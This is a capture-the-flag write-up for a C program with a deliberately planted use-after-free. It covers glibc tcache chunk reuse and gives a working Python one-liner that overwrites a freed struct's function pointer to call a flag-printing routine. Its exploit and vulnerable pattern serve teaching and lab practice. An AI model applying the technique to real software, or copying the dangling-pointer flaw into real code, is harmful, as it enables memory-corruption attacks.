







## Challenge 4

#### Description
There is a problem (or more than 1) in the following code, which can lead to unwanted behavior.
The goal of this challenge is to find the problem (if there is more than 1, then find all the problems) and describe it fully, including a description of how to exploit it.


[*] Bonus points for compiling it (fully protected - PIE, ASLR, W^X) and writing a fully working exploit (locally).

#### Rules
None.

#### Code
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

#define BUFLEN 64

struct Dog {
    char name[12];
    void (*bark)();
    void (*bringBackTheFlag)();
    void (*death)(struct Dog*);
};

struct DogHouse{
    char address[16];
    char name[8];
};

int eraseNl(char* line){
    for(;*line != '\n'; line++);
    *line = 0;
    return 0;
}

void bark(){
    int i;
    for(i = 3; i > 0; i--){
        puts("UAF!!!");
        sleep(1);
    }
}

void bringBackTheFlag(){
    char flag[32];
    FILE* flagFile = fopen(".passwd","r");
    if(flagFile == NULL)
    {
        puts("fopen error");
        exit(1);
    }
    fread(flag, 1, 32, flagFile);
    flag[20] = 0;
    fclose(flagFile);
    puts(flag);
}

void death(struct Dog* dog){
    printf("%s run under a car... %s 0-1 car\n", dog->name, dog->name);
    free(dog);
}

struct Dog* newDog(char* name){
    printf("You buy a new dog. %s is a good name for him\n", name);
    struct Dog* dog = malloc(sizeof(struct Dog));
    strncpy(dog->name, name, 12);
    dog->bark = bark;
    dog->bringBackTheFlag = bringBackTheFlag;
    dog->death = death;
    return dog;
}

void attachDog(struct DogHouse* dogHouse, struct Dog* dog){
    printf("%s lives in %s.\n", dog->name, dogHouse->address);
}

void destruct(struct DogHouse* dogHouse){
    if(dogHouse){
        puts("You break the dog house.");
        free(dogHouse);
    }
    else
        puts("You do not have a dog house.");
}

struct DogHouse* newDogHouse(){
    char line[BUFLEN] = {0};
    
    struct DogHouse* dogHouse = malloc(sizeof(struct DogHouse));
    
    puts("Where do you build it?");
    fgets(line, BUFLEN, stdin);
    eraseNl(line);
    strncpy(dogHouse->address, line, 16);
    
    puts("How do you name it?");
    fgets(line, 64, stdin);
    eraseNl(line);
    strncpy(dogHouse->name, line, 8);
    
    puts("You build a new dog house.");
    
    return dogHouse;
}

int main(){
    int end = 0;
    char order = -1;
    char nl = -1;
    char line[BUFLEN] = {0};
    struct Dog* dog = NULL;
    struct DogHouse* dogHouse = NULL;
    while(!end){
        puts("1: Buy a dog\n2: Make him bark\n3: Bring me the flag\n4: Watch his death\n5: Build dog house\n6: Give dog house to your dog\n7: Break dog house\n0: Quit");
        order = getc(stdin);
        nl = getc(stdin);
        if(nl != '\n'){
            exit(0);
        }
        fseek(stdin,0,SEEK_END);
        switch(order){
        case '1':
            puts("How do you name him?");
            fgets(line, BUFLEN, stdin);
            eraseNl(line);
            dog = newDog(line);
            break;
        case '2':
            if(!dog){
                puts("You do not have a dog.");
                break;
            }
            dog->bark();
            break;
        case '3':
            if(!dog){
                puts("You do not have a dog.");
                break;
            }
            printf("Bring me the flag %s!!!\n", dog->name);
            sleep(2);
            printf("%s prefers to bark...\n", dog->name);
            dog->bark();
            break;
        case '4':
            if(!dog){
                puts("You do not have a dog.");
                break;
            }
            dog->death(dog);
            break;
        case '5':
            dogHouse = newDogHouse();
            break;
        case '6':
            if(!dog){
                puts("You do not have a dog.");
                break;
            }
            if(!dogHouse){
                puts("You do not have a dog house.");
                break;
            }
            attachDog(dogHouse, dog);
            break;
        case '7':
            if(!dogHouse){
                puts("You do not have a dog house.");
                break;
            }
            destruct(dogHouse);
            break;
        case '0':
        default:
            end = 1;
        }
    }
    return 0;
}
```

# Solution
------------------------
` puts("UAF!!!"); `
The author gave us a hint that we are dealing with UAF (Use-After-Free) vulnurabitly

Lets take a look at diff results with an almost identical challange #5:  


It gives us a hint that UAF is somehow related to not re-setting the local vars pointers to NULL after we free them.  

How does it help us?  
We can see that cases 2,3,4,6,7 check for NULL value (of Dog and or DogHouse pointers) before allowing performing actions on them   

Since we don't reset to NULL when destroying (deallocating this chunk of memory) the structs, we are able to pass through this check even after destruction.

### Our goal:  
To somehow invoke **bringBackTheFlag()** using the given API.   
Its addr gets stored at dog->bringBackTheFlag when allocating a new Dog

**NOTE** : sizeof(struct Dog) = sizeof(struct DogHouse) =24Bytes [**only for 32bit systems!! (e.g X86**]  
Why : (Taking into consideration struct packing (Alignment of word size = 4 bytes)

```c
struct Dog {
    char name[12]; // 3*4Bytes = 12B
    void (*bark)();             //4B
    void (*bringBackTheFlag)(); //4B
    void (*death)(struct Dog*); //4B
};

struct DogHouse{
    char address[16]; //  4*4Bytes = 16B
    char name[8];     //  2*4Bytes = 8B
};
```

Or visually:
```
Dog:
----------------------------------------------------------------------------------------
|                name[12]                 | bark[4] | braingBackTheFlag[4] | death[4]  |
----------------------------------------------------------------------------------------
DogHouse:
|                address[16]                        |           name [8]               |
----------------------------------------------------------------------------------------
The DogHouse we will create:
|               BBBBCCCCDDDD              |BBTF addr| Here we will write at most 8chars|

```

Q: Why do we care about they are the same size?
A: because in the x86 case, **glibc malloc algorithm** will actually reuse (give us) the chunk which was used for the freed(murdered) Dog when requesting heap memory for DogHouse afterwards(at step 3. see the described following steps down below). 


For 64bit arch we will get sizeof(struct Dog) = 36B instead which looks like this:
```
Dog:  ()
----------------------------------------------------------------------------------------
|           name[12]     |     bark[8]     | braingBackTheFlag[8] |       death[8]     |
----------------------------------------------------------------------------------------
DogHouse:  
|            address[16]          |    name [8]      |
------------------------------------------------------
```
**We will talk about the X64 case later and see it won't let us reuse it like we did in step 3**


**back to X86:**
------------   
Remember that we don't have in the code an implicit call to bringBackTheFlag(), so our only way is to overwrite the either one of the two func pointer fields **bark / death**.  
We will choose to override **bark** (no particualar reason). 

Each time we allocate a new Dog (even after freeing it/them) it won't help us to do so  

**But** - We can allocate a new DogHouse at the addr where an old (freed) Dog was (where the local var dog still points to) and set it's field (char buffers) to whatever input we wish

So, The sequence of commands we need is the following:
1. new dog
2. kill dog
3. new DogHouse [specially crafted **payload**]
4. bark 

**Compilation & Linking**
---------------------------------------------------------------- 

if libc.so isn't set to be searched & loaded from a specific path prior to running the program, then the os will use whatever libc version it has.   

[And if it is set to be loaded from a specific path and it won't find the file (a specific build) or the so doesn't match - the program will crash]

(you can check it with ` $(ldd /bin/ls|grep libc.so|cut -d' ' -f3) ` for example. Because most likely all the os binaries (/bin) will use the same libc so)

We will prove our exploit can work on the version that comes with Ubuntu 18.04:  **v2.31** since it won't step on any glibc security mitigations till this version.

ASLR won't matter for us (because **bringBackTheFlag** is not a library/external/linked function within the PLT ). 

We will start with PIE mitigation off, but all the other mitigation will be fully on

Our compiliation flags would look like this (see the included MAKEFILE)
(We'll Turn on PIE later and see its effect), remember we are compiling for 32 bit:
```s
....
CC=gcc
CFLAGS=-Wall -Wextra -m32 -fstack-protector-all -D_FORTIFY_SOURCE=2 -Wl,-z,now -Wl,-z,relro,-z,noexecstack -no-pie
....

```
  

NOTE: Even if we find the addr of  **bringBackTheFlag()** at runtime, we need a way to send the program **raw bytes** which may contain non-printable ascii chars of the **bringBackTheFlag()** addr.
So we need to use either python -c "print ..." and pipe the output to the binary or to attach ourself to the process with pwntools or something similar (pexpect /radare/IDAPython etc) 

we can use pwntool's p32() / int.to_bytes(addr, 4, 'little') to encode the address to a byte-string


if we simply run:  
` python -c "print '1\n' + 'AAAA\n' + '4\n' + '5\n' + 'BBBBCCCCDDDD\xe7\x92\x04\x08\n' + 'EEEEEEEE\n' + '2\n'" | ./q4 `    
the flag inside the local .passwd file (need to create it in the same folder) gets printed 

------------

Debugging the executable with **pwndbg** wsa done in steps (placing the io.interactive() call after all verified stages each time):







Lets visualize the heap chunks after each step
NOTE: If you don't disable ASLR (add an argument for gdb - NOASLR) then you'll see different addresses each run  


This must be the **Tcache** (thread cache)  


This one was unexpected (size 0x1010 chunk with the sent data)
and I'm not sure where it came from   
TODO: check


Our allocated chunk (0x20 chunk):  


Lets kill the dog:  


now the heap looks like this:

Tcache - the count field and the list head for the 0x20 tcache bin was updated (tcache 0x20 free list) 


again the weird chunk which has changed a bit.  


the chunk was added to the 0x20 tcache bin.  
notice how the first quadword of the data was nulled (the forward descriptor in the 0x20 tcache list is null)


After creating the new DogHouse (step 3):


Hmmmm..... (?)  


Our reused chunk (poped out from the tcache 0x20 bin)
  
 
from here (step 4), we just call dog->bark() and get the flag.

--------------------------------

**Unfortunately** - When compiling with **PIE Enabled** the method **doesn't work** 
  
just after calling dog->bark()    




**TODO:** Explain why  
**TODO:** Find a way to overcome it

------------


What about compiling for X64 (structs with different size)?  The concept might still works, but now we'll need to split the adrr bytes between the two inputs (DogHouse adrr&name) , the addr in this case - 0x401298
if we'll try something like this (PIE is off) it won't give us the flag
`
python -c "print '1\n' + 'AAAA\n' + '4\n' + '5\n' + 'BBBBCCCCDDDD\xbb\x87\x04\x08\n' + '\x00\x00\x00\x00\n' + '2\n'" | ./q4_x64.out `


And the reason why is because the second malloc picks a different chunk instead of reusing the one we freed (because malloc will mmap for it a 0x30 chunk (24<36<40 , 40+8(sizeField)=0x30) )  

**TODO:** Prove it by showing heap memory when debugging 

**TODO:** How to overcome it 


